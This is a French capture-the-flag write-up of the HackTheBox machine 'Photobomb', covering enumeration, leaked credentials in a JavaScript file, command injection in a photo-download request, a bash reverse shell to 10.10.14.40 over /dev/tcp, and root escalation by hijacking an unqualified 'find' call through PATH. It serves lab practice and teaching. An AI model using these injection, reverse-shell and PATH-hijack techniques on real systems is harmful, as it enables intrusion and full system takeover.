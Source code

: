 <h1 align="center">
  WriteUp de la box Photobomb
  <br>
</h1> 

Bonjour à toutes et tous, aujourd'hui on s'attaque à la machine Photobomb sur HackTheBox. 

C'est une machine classifiée facile, et nous allons voir que les démarches pour atteindre les deux flags sont relativement rapides (si l'on cherche aux bons endroits).

## Enumération

On commence par réaliser un NMAP afin de scanner les ports ouverts sur la machine : 

![image](https://user-images.githubusercontent.com/33124690/195099486-b77ad55d-e35f-4a74-bfea-d0e4a677d81e.png)

On s'aperçoit que seul le port 80 (HTTP) ainsi que le port 22 (SSH) sont ouverts. On obtient aussi le nom de domaine (photobomb.htb) qu'il faut ajouter dans notre ficher "/etc/hosts"

Lorsque l'on se rend sur le site, on se rend compte qu'il n'y a pas grand chose, c'est un site vitrine (d'apparence). 

![image](https://user-images.githubusercontent.com/33124690/195100699-d756413d-d18f-4b08-9fb7-203ba7989aef.png)

Un lien permet de se connecter pour accéder à une autre partie du site. Néanmoins, sans creds, impossible de se connecter, il va falloir trouver une solution. On peut quand même remarquer qu'en cas d'échec d'authentification, on est redirigé sur "/printers".

![image](https://user-images.githubusercontent.com/33124690/195103675-392f6fa7-ed1d-4be0-9de6-2e5de3c0514c.png)

On lance une énumération des "directories" avec gobuster en fond, en parralèle, on continue l'énumération à la main afin de voir si l'on peut trouver quelque chose d'intéressant.

![image](https://user-images.githubusercontent.com/33124690/195105567-1f95810a-096e-415f-9be4-2d3d1354bc33.png)

## Accès au "/printers"

Les résultats de gobuster ne seront pas très intéressants car toutes les pages que l'on trouve nécessite une authentification. Toujours étant qu'en inspectant le code source de la page, on s'aperçoit qu'un fichier JS est utilisé. En y accédant, on obtient des creds visiblement destinés au support technique du site web.

![image](https://user-images.githubusercontent.com/33124690/195106155-64a3d6f0-0ce7-4f7f-aa11-d58bd4662bd9.png)

Il suffit d'utiliser ces creds pour nous connecter ou tout simplement de c/v le lien ! :)

## Reverse Shell pour accéder à la machine

Maintenant que nous avons accès, nous pouvons continuer à énumérer le site. On remarque rapidement un bouton pour télécharger la photo : 

![image](https://user-images.githubusercontent.com/33124690/195107724-663aaefb-0c04-450d-b35c-cfd1a48ce5ee.png)

On lance Burp Suite afin d'étudier la requête qui est effectuée. 

![image](https://user-images.githubusercontent.com/33124690/195108047-908809d1-3394-4012-a25f-12703ab17c57.png)

On test plusieurs attaques comme du LFI sur la requète, rien ne fonctionne jusqu'au moment où on test les injections de commandes.
Comme on peut le voir ci-contre, il suffit d'ajouter "; {command}" à la suite d'un des trois paramètres pour que ce soit executé. 

![image](https://user-images.githubusercontent.com/33124690/195109920-3df43674-442e-49df-9c53-8e26194183dc.png)

Maintenant que nous avons une RCE sur le serveur web, il suffit de créer notre reverse shell et de l'envoyer afin d'avoir accès à la machine.

Dans un premier temps, un simple reverse shell "bash -i >& /dev/tcp/10.10.14.40/4242 0>&1" ne fonctionne pas, même en URL encodant (surement à cause des caractères spéciaux). On décide donc de le passer en base64 en faisant attention de n'avoir aucun "+".

![image](https://user-images.githubusercontent.com/33124690/195110748-47ec7bde-8672-4391-9993-daeaa0c8312a.png)

Puis, on passe notre payload dans la requète.

![image](https://user-images.githubusercontent.com/33124690/195113874-e1f8dc08-c42c-4b56-9e19-d572dd4d2e68.png)

Ainsi, on obtient un shell sur la machine pour récupérer le flag user.txt. On stabilise notre shell et on s'attaque au privesc !


## Escalation de privilège

On pourrait lancer Linpeas pour voir s'il y a des chemins de privesc rapide, mais simplement à l'aide d'un ```sudo -l``` on s'aperçoit que l'on peut lancer un script en temps que Root.

![image](https://user-images.githubusercontent.com/33124690/195114580-44b45d8f-1db3-4d1c-8b1b-0d7160f848ca.png)

```
bash

#!/bin/bash
. /opt/.bashrc
cd /home/wizard/photobomb

# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
  /bin/cat log/photobomb.log > log/photobomb.log.old
  /usr/bin/truncate -s0 log/photobomb.log
fi

# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;
```

Le script en question présente une vulnerabilité. En effet, "find" n'est pas défini avec son chemin absolu, on va pouvoir en abuser pour obtenir un shell root.

On créer un fichier bash sous le nom de find dans "/tmp". Ce dernier va copier bash et lui attribuer le setuid Root.

![image](https://user-images.githubusercontent.com/33124690/195116301-aedbe85b-4dbb-4991-801b-fce196d24aa7.png)

On oublie pas de "chmod +x" notre script find.

Maintenant, il suffit de changer le path de notre utilisateur (an ajoutant "/tmp:") et de lancer le script :D

![image](https://user-images.githubusercontent.com/33124690/195118038-967f6460-a179-44ed-999c-cefa2f902c17.png)

Et voilà ! 

![image](https://user-images.githubusercontent.com/33124690/195118182-d7881c4d-72f9-4887-87a3-895ca1ef5b4a.png)

J'espère que ce premier WriteUp vous aura plus, j'en referai peut être à l'avenir.
